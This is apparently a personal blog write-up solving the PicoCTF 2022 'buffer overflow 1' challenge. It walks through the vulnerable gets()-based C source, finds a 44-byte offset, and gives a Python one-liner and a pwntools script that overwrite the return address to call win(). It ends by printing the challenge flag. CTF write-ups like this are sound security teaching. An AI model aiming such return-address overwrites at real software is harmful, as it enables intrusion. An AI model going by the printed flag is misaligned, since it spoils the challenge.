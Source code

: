 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 1"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


This is the first "proper" binary exploitation (ret2win) challenge in this CTF.

For this challenge, I found John Hammond's [walkthrough video](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB) to be extremely helpful and informative.


## My Solution
Firstly, let's download the provided files.
```bash
wget https://artifacts.picoctf.net/c/187/vuln
wget https://artifacts.picoctf.net/c/187/vuln.c
```

Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, 
BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '/mnt/c/Users/yihao/Downloads/picoCTF/2022/blog/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```
From this, we can observe that the file:
- is a 32-bit ELF file,
- is not stripped,
- is compiled on a little-endian system, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 32, and has a `win()` function present. The `gets()` function is also used to retrieve user input within the `vuln()` function. Lastly, the program also prints out a return address using a `get_return_address()` function.

Evidently, we will need to control the return address to call the `win()` function. Here, the program helps us to visualize the return address by printing it to standard output. 

I then decided to do some experimenting to see how many 'A's will cause the printed return address to be overwritten. Without causing any segmentation fault, we observe that the program returned to this address: `0x804932f`.

I then used GDB to disassemble the program, in order to see which instruction this address points to.
```bash
$ gdb vuln
>> ...
gef> disas main
...
 0x0804932f <+107>:   mov    eax,0x0
...
```
It appears that this specific address is bound to a move instruction in `main()`.

Through further trial and error, I found that around 44 'A's were required to clobber the return address (which was seen from the presence of 41s in the printed address - 41 is the hex representation of A). 

I can then run `readelf -s vuln` to look for the address of `win()`. Through this, we note that the address is `0x080491f6`.

Now, we can generate the payload. In this case, we want to order our bytes for `win()` in "reverse", since the executable runs on a little-endian system.

Using Python 2.7 to pipe the payload directly into the program: 
```bash
python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc saturn.picoctf.net 60801 
```

Alternatively, using Python 3 and pwntools to send the payload through a solver script:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 60801) # for remote execution

# payload buffer
payload = b'A' * 44 # offset of 44 to EIP
payload += p32(0x080491f6) # address of win()

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
Both methods allow us to obtain the flag.
```bash
[+] Opening connection to saturn.picoctf.net on port 60801: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Please enter your string:'
[*] Switching to interactive mode

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 60801
```

## Learning Takeaways
Some general tips I picked up here:
- Play around with the program to test the number of dummy characters required to clobber the return address of our intended functions. Or, how many characters do we need to determine the offset of EIP?
  - We also can use GDB/GEF to determine the offsets, but that will be covered in a later writeup. :)
- Get familiar with `readelf`.
- Python 2 can be used to generate simple payloads, but for more complex payloads and ROP chains, it may be better to use pwntools and Python 3 instead.
  - Interestingly, Python 2 lets us directly pipe in the payload into the program using a print statement, but we can't seem to do this with Python 3 (not even after converting the payload into a bytestring). It could be to do with the behaviour of the print function in Python 3, where it appends a newline character after the payload string. Consequently, this newline character modifies the payload and makes it incorrect.
- Note the differences between little-endian and big-endian.

## References
- [John Hammond (YouTube): 32-bit x86 LINUX BUFFER OVERFLOW (PicoCTF 2022 #31 'buffer-overflow1')](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB)

